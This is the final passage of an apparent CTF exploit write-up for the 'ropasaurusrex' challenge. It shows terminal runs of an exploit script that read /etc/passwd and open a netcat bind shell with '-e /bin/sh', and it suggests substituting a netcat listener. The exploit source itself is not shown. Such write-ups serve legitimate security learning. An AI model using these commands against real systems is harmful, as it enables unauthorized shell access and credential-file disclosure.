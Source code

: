And here it is in action:

```

<span class="lnr">1 </span><span class="Identifier">$ ruby sploit.rb "cat /etc/passwd"</span>
<span class="lnr">2 </span><span class="Identifier">root</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Constant">0</span><span class="Normal">:</span><span class="Comment">root</span><span class="Normal">:</span><span class="Type">/root</span><span class="Normal">:</span><span class="Statement">/bin/bash</span>
<span class="lnr">3 </span><span class="Identifier">daemon</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Constant">1</span><span class="Normal">:</span><span class="Comment">daemon</span><span class="Normal">:</span><span class="Type">/usr/sbin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">4 </span><span class="Identifier">bin</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Constant">2</span><span class="Normal">:</span><span class="Comment">bin</span><span class="Normal">:</span><span class="Type">/bin</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">5 </span><span class="Identifier">sys</span><span class="Normal">:</span><span class="Special">x</span><span class="Normal">:</span><span class="Constant">3</span><span class="Normal">:</span><span class="Constant">3</span><span class="Normal">:</span><span class="Comment">sys</span><span class="Normal">:</span><span class="Type">/dev</span><span class="Normal">:</span><span class="Statement">/bin/sh</span>
<span class="lnr">6 </span><span class="Identifier">[...]</span>
```

You can, of course, change <tt>cat /etc/passwd</tt> to anything you want (including a netcat listener!)

```

<span class="lnr"> 1 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">pwd</span><span class="Statement">"</span>
<span class="lnr"> 2 </span>/home/ron
<span class="lnr"> 3 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">whoami</span><span class="Statement">"</span>
<span class="lnr"> 4 </span>ron
<span class="lnr"> 5 </span>ron@debian-x86 ~ $ ruby sploit.rb <span class="Statement">"</span><span class="Constant">nc -vv -l -p 5555 -e /bin/sh</span><span class="Statement">"</span> &
<span class="lnr"> 6 </span><span class="Statement">[</span><span class="Constant">1</span><span class="Statement">]</span> <span class="Constant">3015</span>
<span class="lnr"> 7 </span>ron@debian-x86 ~ $ nc <span class="Special">-vv</span> localhost <span class="Constant">5555</span>
<span class="lnr"> 8 </span>debian-x86.skullseclabs.org <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> <span class="Constant">5555</span> <span class="PreProc">(</span><span class="Special">?</span><span class="PreProc">)</span> open
<span class="lnr"> 9 </span><span class="Statement">pwd</span>
<span class="lnr">10 </span>/home/ron
<span class="lnr">11 </span>whoami
<span class="lnr">12 </span>ron
```

## Conclusion

And that's it! We just wrote a reliable, DEP/ASLR-bypassing exploit for ropasaurusrex.

Feel free to comment or contact me if you have any questions!